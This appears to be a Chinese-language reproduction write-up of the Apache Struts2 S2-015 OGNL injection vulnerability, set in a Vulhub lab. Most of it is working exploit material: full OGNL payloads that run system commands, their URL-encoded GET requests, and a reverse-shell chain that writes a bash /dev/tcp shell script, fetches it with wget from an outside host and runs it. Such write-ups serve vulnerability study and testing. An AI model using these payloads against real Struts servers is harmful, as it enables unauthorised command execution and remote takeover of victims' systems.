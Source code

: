 # Struts2 S2-015 远程代码执行漏洞

## 漏洞描述

漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：

```
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。

还有需要说明的就是在 Struts 2.3.14.1 - Struts 2.3.14.2 的更新内容中，删除了 SecurityMemberAccess 类中的 setAllowStaticMethodAccess 方法，因此在 2.3.14.2 版本以后都不能直接通过 `#_memberAccess['allowStaticMethodAccess']=true` 来修改其值达到重获静态方法调用的能力。

漏洞详情: 

- http://struts.apache.org/docs/s2-015.html

## 漏洞影响

影响版本: 2.0.0 - 2.3.14.2

## 环境搭建

Vulhub执行以下命令启动s2-015测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.html`即可进入上传表单页面。

## 漏洞复现

这里为了到达执行命令的目的可以用 kxlzx 提到的调用动态方法 (new java.lang.ProcessBuilder('calc')).start() 来解决，另外还可以借助 Java 反射机制去间接修改：

```
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

可以构造 Payload 如下：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

进行URL编码后的Payload：

```
GET /S2-015/%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d.action HTTP/1.1
```

直接回显：

![image-20220301185208869](images/202203011852988.png)

除了上面所说到的这种情况以外，S2-015 还涉及一种二次引用执行的情况：

```
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

这里配置了 `<param name="errorMessage">${message}</param>`，其中 message 为 ParamAction 中的一个私有变量，这样配置会导致触发该 Result 时，Struts2 会从请求参数中获取 message 的值，并在解析过程中，触发了 OGNL 表达式执行，因此只用提交 %{1111*2} 作为其变量值提交就会得到执行。这里需要注意的是这里的二次解析是因为在 struts.xml 中使用 ${param} 引用了 Action 中的变量所导致的，并不针对于 type="httpheader" 这种返回方式。

可以构造 Payload 如下：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

进行URL编码后的Payload（最开始的%24变为%25）：

```
GET /param.action?message=%25%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d HTTP/1.
```

### 反弹shell

通过第二种方式获取反弹shell，注意要进行URL编码。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream()),#q}
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream()),#q}
```

成功接收反弹shell：

![image-20220301190047036](images/202203011900116.png)

